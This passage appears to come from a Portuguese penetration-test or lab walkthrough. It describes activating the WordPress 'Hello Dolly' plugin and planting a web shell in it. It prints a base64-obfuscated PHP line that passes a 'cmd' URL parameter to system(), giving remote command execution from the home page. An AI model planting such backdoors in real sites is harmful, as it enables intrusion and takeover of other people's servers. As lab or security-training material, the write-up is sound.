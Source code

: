 `Hi there! I'm just a plugin, not much I can do when called directly.`

### `Plugin: Hello Dolly`

Seguindo os passos anteriores foi feito a ativação no plugin.

![](attachment/e40b0a0d08fff9948379cb6c536536d1.png)

E a shell foi implantada nesse momento
`eval(base64_decode('aWYgKGlzc2V0KCRfR0VUWyJcMTQzXDE1NVx4NjQiXSkpIHsgc3lzdGVtKCRfR0VUWyJcMTQzXHg2ZFwxNDQiXSk7IH0='));`

Como foi descoberto anteriormente, que esse plugin, ele fica rodando na página inicial ao acessarmos passando o parâmetro `cmd` conseguimos ter acesso a shell.

![](attachment/c53ea2ea5c4834bfdb35919dbd652f91.png)
